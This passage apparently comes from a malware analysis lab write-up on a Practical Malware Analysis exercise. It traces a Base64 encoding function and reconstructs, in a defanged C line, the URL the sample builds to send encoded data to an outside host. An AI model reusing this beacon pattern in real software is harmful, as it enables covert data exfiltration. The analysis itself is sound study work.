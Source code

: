 <img alt="alt text" src="/assets/img/Lab14/1main.png">

Lokking into the function sub_4010BB, it calls another function sub_401000 which contains the reference to the string detected by KANAL.

<img alt="alt text" src="/assets/img/Lab14/1base64ref.png">

So, ig sub_4010BB is the Base64 encoding function. 

Back in main function, it calls another function sub_4011A3 in while loop. In which, it frames a URL in the format of :

```cpp
sprintf(buffer, "http[:]//www[.]practicalmalwareanalysis[.]com/%s/%c.png", base64Encoded, base64Encoded[sizeof(base64Encoded)-1]);
```
